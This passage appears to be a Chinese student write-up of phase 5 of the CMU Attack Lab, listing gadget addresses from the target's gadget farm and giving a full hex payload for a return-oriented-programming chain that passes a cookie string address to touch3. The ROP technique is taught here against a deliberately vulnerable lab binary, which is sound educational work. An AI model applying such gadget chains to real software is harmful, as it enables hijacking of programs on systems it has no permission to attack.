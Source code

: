 * 执行`movq %rax,%rdi`并使`%rsp`指向`touch2`的入口地址，并使得`pc`跳转至`ret`。

* 调用`ret`使得控制流进入`touch2`。  

  

### phase5

在此部分中，我们需要利用`rtarget`执行phase3中相同的攻击，通过实验手册的提示，我们可以知道可以被利用的工具代码段（gadgets）位于`start_farm()`和`end_farm()`之间。

同样的，我们我们需要在这段代码区间中寻找可能有用的gadgets：

```assembly
401a06 : movq %rsp,%rax
4019a2 : movq %rax,%rdi
4019ab : popq %rax
401a86 : movl %esp,%eax
401a42 : movl %eax,%edx
401a34 : movl %edx,%ecx
401a13 : movl %ecx,%esi
```

值得注意的是，我们除了代码片段中的一部分可能有用，整个代码片段也可能是有用的（这一点困扰了我很长时间）。很关键的一段代码如下：

```assembly
4019d6 : leaq(%rdi,%rsi,1),%rax
```

通过`leaq`操作，我们即可实现加法操作，从而构造由`%rsp`作为基址，一个由`popq %rax`传入的数值作为偏移地址的cookie字符串地址，我们可以构造如下的hex文件`rtarget2`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00  /* movq %rsp,%rax (base address) */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi  */
ab 19 40 00 00 00 00 00  /* popq %rax  */
48 00 00 00 00 00 00 00  /* the num pop to %rax  */
42 1a 40 00 00 00 00 00  /* movl %eax,%edx */
34 1a 40 00 00 00 00 00  /* movl %edx,%ecx */
13 1a 40 00 00 00 00 00  /* movl %ecx,%esi */
d6 19 40 00 00 00 00 00  /* leaq (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00  /* movq %rax,%rdi */
fa 18 40 00 00 00 00 00  /* address of touch3 */
35 39 62 39 39 37 66 61  /* the cookie (its address is equal to 'base address + 0x48' */
00
```

上述文件所代表的操作如下：

* 与phase3相同，我们需要在栈帧高地址处保存cookie字符串

* 利用`movq %rsp,$rax`和`movq %rax,%rdi`以保存栈指针的当前地址至`%rdi`。
* 利用`popq %rax`操作使得栈帧中的数值被传入`%rax`，然后通过一系列的`movl`操作使得该值被传递至`%esi`。
* 利用`leaq(%rdi,%rsi,1),%rax`构造偏移地址，即rookie字符串的起始地址，并利用`movq %rax,%rdi`使得该地址被传入`%rdi`。
* 返回至`touch3`。







